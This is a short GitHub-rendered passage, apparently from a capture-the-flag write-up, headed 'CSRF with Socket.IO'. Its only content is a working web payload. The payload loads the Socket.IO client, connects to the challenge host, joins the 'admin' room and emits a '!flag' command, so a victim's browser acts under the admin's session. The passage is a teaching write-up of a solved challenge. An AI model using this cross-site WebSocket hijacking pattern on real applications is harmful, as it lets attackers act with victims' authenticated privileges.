 <h3 dir="auto"><a id="user-content-csrf-with-socketio" class="anchor" aria-hidden="true" href="#csrf-with-socketio"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>CSRF with Socket.IO</h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"&gt;&lt;/script&gt;
&lt;script&gt;
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () =&gt; {
    console.log('connected!');
    socket.emit('join', {
        room: username
    });
  socket.emit('my_room_event', {
      data: '!flag',
      room: username
  })

});
&lt;/script&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script src=&quot;https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js&quot;></script>
<script>
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () => {
    console.log('connected!');
    socket.emit('join', {
        room: username
    });
  socket.emit('my_room_event', {
      data: '!flag',
      room: username
  })

});
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
